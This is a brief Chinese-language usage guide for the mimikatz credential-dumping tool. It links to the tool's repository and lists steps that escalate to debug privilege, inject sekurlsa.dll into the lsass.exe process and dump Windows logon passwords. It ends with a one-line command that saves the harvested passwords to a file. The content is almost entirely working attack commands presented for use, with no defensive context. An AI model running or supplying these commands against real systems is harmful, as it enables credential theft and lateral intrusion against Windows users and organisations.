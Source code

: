# 使用

[download](git://www.github.com/gentilkiwi/mimikatz.git)

1. 运行调试器

    进入目录，以管理员身份运行：

    `mimikatz`

2. 提升至debug权限

    在提示符下，输入：

    `privilege::debug`

3. 注入dll

    `inject::process lsass.exe sekurlsa.dll`

4. 抓取密码

    `@getLogonPasswords`

## 或者一句话解决

`mimikatz.exe "privilege::debug" "inject::process lsass.exe sekurlsa.dll" "@getLogonPasswords"> pssword.txt`
